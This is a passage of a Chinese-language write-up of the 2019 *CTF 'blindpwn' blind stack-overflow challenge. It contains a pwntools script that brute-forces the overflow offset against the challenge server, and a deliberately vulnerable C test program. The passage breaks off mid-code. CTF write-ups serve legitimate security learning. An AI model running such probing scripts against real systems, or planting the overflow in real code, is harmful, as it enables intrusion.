 ```yaml
---
title: 2019-Starctf-blindpwn
date: 2019-05-01 21:41:36
tags: [ctf, pwn, wp]
---
```


第一次盲打 pwn。



# Description

```
Close your eyes!

$ nc 34.92.37.22 10000

checksec:
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)

file libc:
libc-2.23.so: ELF 64-bit LSB shared object,
x86-64, version 1 (GNU/Linux), dynamically
linked, interpreter /lib64/ld-linux-x86-64.so.2,
BuildID[sha1]=b5381a457906d279073822a5ceb2
```

# Analysis

试了一下格式化字符串无果，猜测是栈溢出。尝试爆破溢出的长度，检测脚本：

```python
def find_offset():
    for i in range(1, 500):
        try:
            p = remote('34.92.37.22', 10000)
            p.sendafter('!\n', 'A' * i)
            p.recv()
            p.close()
        except EOFError:
            success('Founded! offset = ' + hex(i - 1))
            break
```

判断出溢出的偏移之后，接下来就是要找 gadget。先尝试自己编译一个类似的程序（`gcc test.c -o test -fno-stack-protector`）：

```cpp
#include <stdio.h>
#include <stdlib.h>

void vul() {
	char buf[0x20];
	puts("Welcome!");
	read(0, buf, 0x100);
	puts("Goodbye!");
}

int main() {
	setvbuf(stdin, 0, 2, 0);
	setvbuf(stdout, 0, 2, 0);
```